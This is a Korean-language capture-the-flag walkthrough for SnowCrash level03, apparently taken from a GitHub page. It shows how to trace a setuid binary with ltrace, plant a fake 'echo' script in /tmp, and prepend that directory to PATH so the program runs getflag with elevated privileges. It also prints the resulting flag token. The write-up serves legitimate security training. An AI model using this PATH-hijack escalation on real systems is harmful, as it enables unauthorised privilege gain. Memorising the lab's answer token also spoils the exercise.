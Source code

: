 # Level03

## 파일 찾기 및 실행

```zsh
level03@SnowCrash:~$ ls -al
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
level03@SnowCrash:~$ ./level03
Exploit me
```

이 경우 s 권한이 있는 파일을 실행할 때는 이 파일이 소유한 권한으로 실행되므로 안에서 getflag를
실행하면 flag03이 실행한것과 같다.
즉, su flag03을 하기위해서 비밀번호를 찾지않아도된다.

## ltrace

ltrace는 Linux에서 사용할 수 있는 명령어 중 하나입니다. 함수가 아니라 프로그램입니다.

ltrace는 실행파일이 호출하는 라이브러리 함수들의 동작을 추적하여 출력해주는 도구입니다. 따라서 실행파일 내부의 함수 호출과 매개변수, 반환값 등을 추적하여 디버깅이나 분석에 사용될 수 있습니다.

```zsh
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                            = 2003
geteuid()                                                                                            = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                  = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                  = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                               = 0
+++ exited (status 0) +++
```

## /usr/bin/env

/usr/bin/env는 유닉스 및 리눅스에서 사용되는 명령어로, 실행할 프로그램의 경로를 환경변수로부터 찾아 실행합니다.
즉, echo를 내가 따로 설정할수있다.

즉, echo안에 getflag를 넣어서 실행시키면된다.

## getflag

```zsh
level03@SnowCrash:~$ whereis getflag
getflag: /bin/getflag
```

## echo 파일 만들기 및 PATH의 맨앞에 경로 저장

```zsh
level03@SnowCrash:~$ mkdir /tmp/level03
level03@SnowCrash:~$ vim /tmp/level03/echo
#!/bin/bash
/bin/getflag
level03@SnowCrash:~$ chmod +x /tmp/level03/echo
level03@SnowCrash:~$ export PATH="/tmp/level03:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04 
Password: 
level04@SnowCrash:~$ 
```
